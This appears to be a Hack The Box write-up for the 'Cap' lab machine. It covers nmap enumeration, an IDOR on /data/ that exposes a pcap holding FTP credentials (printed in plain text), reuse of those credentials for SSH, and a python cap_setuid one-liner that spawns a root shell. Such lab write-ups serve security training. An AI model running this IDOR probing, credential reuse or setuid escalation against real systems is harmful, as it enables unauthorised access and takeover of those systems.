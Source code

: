 ![](cap_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.245 cap.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
... [snip] ...
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

* **Port 80** Running gunicorn server.
  * **[gunicorn](https://gunicorn.org/):** The Gunicorn "Green Unicorn" is a Python Web Server Gateway Interface HTTP server. It is a pre-fork worker model, ported from Ruby's Unicorn project.

# Foothold

## Parameter Manipulation

Going through the wep app found "Parameter Manipulation" in `/data/` which allows to access resources that should not be accessible.

![](screenshots/web-vuln.png)

changing value to `0` give access stored pcap file on the server

![](screenshots/file-0.png)

download the pcap file
```bash
❯ wget http://cap.htb/download/0
--2021-06-06 18:56:34--  http://cap.htb/download/0
Resolving cap.htb (cap.htb)... 10.129.119.229
Connecting to cap.htb (cap.htb)|10.129.119.229|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9935 (9.7K) [application/vnd.tcpdump.pcap]
Saving to: ‘0’

0               100%[=======>]   9.70K  --.-KB/s    in 0.002s  

2021-06-06 18:56:35 (4.39 MB/s) - ‘0’ saved [9935/9935]
```

## PCAP file analysis

open it in wireshark and view `tcp.stream eq 3` which contains ftp traffic packet.

![](screenshots/tcp-stream3.png)

and get ftp creds: `nathan:Buck3tH4TF0RM3!`

ftp have read access to file system but nothing interesting here.

![](screenshots/ftp-access.png)

but same creds work for ssh login because user "nathan" is in the box.

![](screenshots/ssh-login.png)

# Privesc

## python with `setuid` capability

Found `cap_setuid` capability in python3

![](screenshots/python-cap.png)

[capabilities man page](https://man7.org/linux/man-pages/man7/capabilities.7.html): Linux capabilities are special attributes in the Linux kernel that grant processes and binary executables specific privileges that are normally reserved for processes whose effective user ID is 0

**CAP_SETUID** Allow changing of the UID (set UID of root in you process). That means `setuid()` sets the effective user ID of the calling process.

and python have `setuid()` capability, that means python command allow user to set effective userID for its calling process.

![](screenshots/python-cap-demo.png)

gtfobins also have exploit for [python capabilities](https://gtfobins.github.io/gtfobins/python/#capabilities)

**exploit:** `python -c 'import os; os.setuid(0); os.system("/bin/sh")'`
```bash
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```
